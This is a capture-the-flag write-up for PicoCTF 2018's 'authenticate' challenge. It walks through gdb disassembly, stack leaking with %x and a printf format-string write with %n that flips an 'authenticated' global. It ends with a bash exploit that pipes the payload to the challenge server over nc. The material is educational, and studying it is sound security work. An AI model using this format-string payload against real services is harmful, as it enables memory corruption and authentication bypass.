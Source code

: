 # Write-up for shellcode challenge
# PicoCTF_2018: authenticate

**Category:** Binary Exploitation
**Points:** 350

>Can you authenticate to this service and get the flag? Connect with nc 2018shell.picoctf.com 52918. Source.

> # Introduction
In this write-up we're gonna perform a format string attack. I shall show it with ASLR disabled.(See what ASLR is [here](https://github.com/giannoulispanagiotis/picoCTF-2018-wiretup/tree/master/got2learnlibc#aslr))

> # Vulnerability

As I said before, in this challenge Ι'm going to present to you a format string attack. And, what is that? You'll find soon.
First of all, let's disassemble our binary with gdb to see if we can find a vulnerability to exploit.

```asm
Dump of assembler code for function main:
=> 0x0804871d <+0>:	lea    ecx,[esp+0x4]
   0x08048721 <+4>:	and    esp,0xfffffff0
   0x08048724 <+7>:	push   DWORD PTR [ecx-0x4]
   0x08048727 <+10>:	push   ebp
   0x08048728 <+11>:	mov    ebp,esp
   0x0804872a <+13>:	push   ecx
   0x0804872b <+14>:	sub    esp,0x64
   0x0804872e <+17>:	mov    eax,ecx
   0x08048730 <+19>:	mov    eax,DWORD PTR [eax+0x4]
   0x08048733 <+22>:	mov    DWORD PTR [ebp-0x5c],eax
   0x08048736 <+25>:	mov    eax,gs:0x14
   0x0804873c <+31>:	mov    DWORD PTR [ebp-0xc],eax
   0x0804873f <+34>:	xor    eax,eax
   0x08048741 <+36>:	mov    eax,ds:0x804a044
   0x08048746 <+41>:	push   0x0
   0x08048748 <+43>:	push   0x2
   0x0804874a <+45>:	push   0x0
   0x0804874c <+47>:	push   eax
   0x0804874d <+48>:	call   0x8048520 <setvbuf@plt>
   0x08048752 <+53>:	add    esp,0x10
   0x08048755 <+56>:	call   0x80484e0 <getegid@plt>
   0x0804875a <+61>:	mov    DWORD PTR [ebp-0x50],eax
   0x0804875d <+64>:	sub    esp,0x4
   0x08048760 <+67>:	push   DWORD PTR [ebp-0x50]
   0x08048763 <+70>:	push   DWORD PTR [ebp-0x50]
   0x08048766 <+73>:	push   DWORD PTR [ebp-0x50]   
   0x08048769 <+76>:	call   0x8048540 <setresgid@plt>
   0x0804876e <+81>:	add    esp,0x10
   0x08048771 <+84>:	sub    esp,0xc
   0x08048774 <+87>:	push   0x8048968
   0x08048779 <+92>:	call   0x80484f0 <puts@plt>
   0x0804877e <+97>:	add    esp,0x10
   0x08048781 <+100>:	mov    eax,ds:0x804a040
   0x08048786 <+105>:	sub    esp,0x4
   0x08048789 <+108>:	push   eax
   0x0804878a <+109>:	push   0x40
   0x0804878c <+111>:	lea    eax,[ebp-0x4c]
   0x0804878f <+114>:	push   eax
   0x08048790 <+115>:	call   0x80484c0 <fgets@plt>
   0x08048795 <+120>:	add    esp,0x10
   0x08048798 <+123>:	sub    esp,0x8
   0x0804879b <+126>:	push   0x8048992
   0x080487a0 <+131>:	lea    eax,[ebp-0x4c]
   0x080487a3 <+134>:	push   eax
   0x080487a4 <+135>:	call   0x80484a0 <strstr@plt>
   0x080487a9 <+140>:	add    esp,0x10
   0x080487ac <+143>:	test   eax,eax
   0x080487ae <+145>:	je     0x80487ca <main+173>
   0x080487b0 <+147>:	sub    esp,0xc
   0x080487b3 <+150>:	push   0x8048995
   0x080487b8 <+155>:	call   0x80484f0 <puts@plt>
   0x080487bd <+160>:	add    esp,0x10
   0x080487c0 <+163>:	sub    esp,0xc
   0x080487c3 <+166>:	push   0x1
   0x080487c5 <+168>:	call   0x8048500 <exit@plt>
   0x080487ca <+173>:	sub    esp,0x8
   0x080487cd <+176>:	push   0x80489a6
   0x080487d2 <+181>:	lea    eax,[ebp-0x4c]
   0x080487d5 <+184>:	push   eax
   0x080487d6 <+185>:	call   0x80484a0 <strstr@plt>
   0x080487db <+190>:	add    esp,0x10
   0x080487de <+193>:	test   eax,eax
   0x080487e0 <+195>:	jne    0x8048801 <main+228>
   0x080487e2 <+197>:	sub    esp,0xc
   0x080487e5 <+200>:	push   0x80489aa
   0x080487ea <+205>:	call   0x80484f0 <puts@plt>
   0x080487ef <+210>:	add    esp,0x10
   0x080487f2 <+213>:	sub    esp,0xc
   0x080487f5 <+216>:	lea    eax,[ebp-0x4c]
   0x080487f8 <+219>:	push   eax
   0x080487f9 <+220>:	call   0x80484b0 <printf@plt>
   0x080487fe <+225>:	add    esp,0x10
   0x08048801 <+228>:	call   0x80486e4 <read_flag>
   0x08048806 <+233>:	mov    eax,0x0
   0x0804880b <+238>:	mov    edx,DWORD PTR [ebp-0xc]
   0x0804880e <+241>:	xor    edx,DWORD PTR gs:0x14
   0x08048815 <+248>:	je     0x804881c <main+255>
   0x08048817 <+250>:	call   0x80484d0 <__stack_chk_fail@plt>
   0x0804881c <+255>:	mov    ecx,DWORD PTR [ebp-0x4]
   0x0804881f <+258>:	leave  
   0x08048820 <+259>:	lea    esp,[ecx-0x4]
   0x08048823 <+262>:	ret    
End of assembler dump.
```

Hmm, at first sight we can't find something wrong in this code (there is not gets here, fgets is safe unfortunately).But, running the code we notice that **0x080487f9 <+220>:	call   0x80484b0 <printf@plt>** takes only one argument (our input specifically).

![Screenshot from 2019-10-11 21-26-50](https://user-images.githubusercontent.com/37578272/66675391-e93a1900-ec6d-11e9-9478-c202105cd70b.png)

So, if our input is hello_world (like above) everything is gonna be alright:
printf("hello_world") gives us hello_world.
Think about it for minute before you see the solution.

If we parse as an argument something like "%d %d %d %d", what's going to happen?

![Screenshot from 2019-10-11 21-36-56](https://user-images.githubusercontent.com/37578272/66677578-9c0c7600-ec72-11e9-84a7-370eb777c5b6.png)
We see some random numbers. printf("%d %d %d %d") will search for addresses of 4 variables to print 4 integers.
However, we haven't parsed 2nd argument inside printf, hence the integers that it prints are some numbers in the stack. Same thing happens with "%x %x %x %x" and now we get some hex values:

![Screenshot from 2019-10-11 21-37-10](https://user-images.githubusercontent.com/37578272/66677581-9d3da300-ec72-11e9-9e37-d96a8c2dba01.png)


Where in the stack are those hex values? We're gonna find soon. But first, we didn't say how we are going to get this flag. 
Let's examine read_flag function.

```asm
Dump of assembler code for function read_flag:
   0x080486e4 <+0>:	push   ebp
   0x080486e5 <+1>:	mov    ebp,esp
   0x080486e7 <+3>:	sub    esp,0x8
   0x080486ea <+6>:	mov    eax,ds:0x804a04c
   0x080486ef <+11>:	test   eax,eax
   0x080486f1 <+13>:	jne    0x8048705 <read_flag+33>
   0x080486f3 <+15>:	sub    esp,0xc
   0x080486f6 <+18>:	push   0x8048934
   0x080486fb <+23>:	call   0x80484f0 <puts@plt>
   0x08048700 <+28>:	add    esp,0x10
   0x08048703 <+31>:	jmp    0x804871a <read_flag+54>
   0x08048705 <+33>:	sub    esp,0xc
   0x08048708 <+36>:	push   0x8048958
   0x0804870d <+41>:	call   0x80484f0 <puts@plt>
   0x08048712 <+46>:	add    esp,0x10
   0x08048715 <+49>:	call   0x804865b <flag>
   0x0804871a <+54>:	nop
   0x0804871b <+55>:	leave  
   0x0804871c <+56>:	ret    
End of assembler dump.
```
In this instruction: **0x080486ea <+6>:	mov    eax,ds:0x804a04c**  we notice an address(data segment). 0x804a04c is an address of a global variable called authenticated. Authenticated is initialized to zero. We then see, **test eax, eax**.
So, if we  modify authenticated variable, we will call flag function, which would give us the flag.
How can we modify it?

We know the address of variable (This instruction is hardcoded which means that authenticated variable will always be on this address, and this makes it easier for us--ASLR is disabled--), and we know that printf is a vulnerable function right now.

Have you ever heard about %n inside printf? 
Man page of printf tells us about %n:
![Screenshot from 2019-10-11 21-11-58](https://user-images.githubusercontent.com/37578272/66677231-da556580-ec71-11e9-8dbe-57f6fb354c97.png)

Ohhh that's too serious. "%n" let us write things in memory. For example:

printf("Hello World%n", &var): writes to var the length of Hello World (=11). Here, we don't have second argument, if we could find where in the stack were those printed values we saw above, with fgets we could parse the address of authenticated and with %n we could write to it. 

Let's test as input this: AAAAAAAA %x %x %x %x %x %x %x %x %x %x %x %x %x.

![Screenshot from 2019-10-11 22-03-26](https://user-images.githubusercontent.com/37578272/66677735-fad1ef80-ec72-11e9-90ea-0d592a15c845.png)

We hitted the A's of our input and the first %x (0x782520-->ascii code of %x). So, if we change first 4 A's with variable's address and decrease %x's by 2 the last hex value will be the address.

```bash
python -c 'print "\x4c\xa0\x04\08" + "AAAA" + "%x "*11' | ./auth
```
![Screenshot from 2019-10-11 22-18-43](https://user-images.githubusercontent.com/37578272/66678683-1fc76200-ec75-11e9-988c-cf28b3053e14.png)

And it's true. Therefor, we change the last "%x" with a "%n". So in the address: 0x0804a04c %n will print length of \x4c\xa0\x04\08AAAA"%x "*10. 

Autenticated will be modified and we'll get the flag. Let's do it. 

Our exploit:
```bash
#!/bin/bash 
 
python -c 'print "\x4c\xa0\x04\x08" + "AAAA" +  "%x "*10 + "%n"' > payload 
 
cat payload | nc 2018shell.picoctf.com 52918 | tail -1  
```

Congrats, we got our flag. See you in the next challenge.




